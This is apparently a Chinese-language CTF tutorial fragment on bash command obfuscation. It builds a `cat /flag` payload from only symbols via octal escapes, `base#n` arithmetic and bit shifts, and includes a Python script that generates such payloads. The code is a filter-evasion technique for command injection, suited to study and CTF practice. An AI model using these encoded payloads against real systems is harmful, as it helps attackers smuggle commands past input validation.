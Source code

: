 在终端中，`$'\xxx'` 可以将八进制 ASCII 码解析为字符。

```python
# ls 就是$'\154\163'
```

此外，在 bash 中可以使用 `[base#]n` 的方式表示数字，例如 `2#100` 表示十进制数字 4。

```python
echo $((2#100))
```

使用位移运算 `1<<1` 代替 `2`，只用到 0 和 1 就能构造 payload。

```python
$0<<<$'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\' // 相当于 $'\154\163'
```

构造 `cat /flag` 的 payload：

```python
__=${#};${!__}<<<${!__}\<\<\<\$\'\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${##}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${##}${#}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}))\\$(($((${##}<<${##}))#${##}${##}${##}${#}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${#}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${#}${#}${##}${##}))\'
```

使用脚本构造：

```python
cmd='cat /flag'
payload='__=${#};${!__}<<<${!__}\\<\\<\\<\\$\\\''
for c in cmd:    
	payload+=f'\\\\$(($((1<<1))#{bin(int(oct(ord(c))[2:]))[2:]}))'.replace('1','${##}').replace('0','${#}')
	payload+='\\\''
print(payload)
```

> 整个表达式 bin(int(oct(ord(c))[2:]))[2:] 的作用是：
> 
> 1. 取字符 `c` 的 ASCII 值。
> 2. 将其转换为八进制。
> 3. 去掉八进制字符串的前缀 `0o`。
> 4. 将八进制字符串再转换回十进制整数。
> 5. 将该整数转换为二进制表示。
> 6. 去掉二进制表示中的前缀 `0b`，得到纯二进制字符串。

### 通过 `$(())` 构造

通过 `$(())` 操作构造出 36：

```python
get_reverse_number = "$((~$(({}))))" # 取反操作
negative_one = "$((~$(())))"        # -1
payload = get_reverse_number.format(negative_one*37)
print(payload)
```
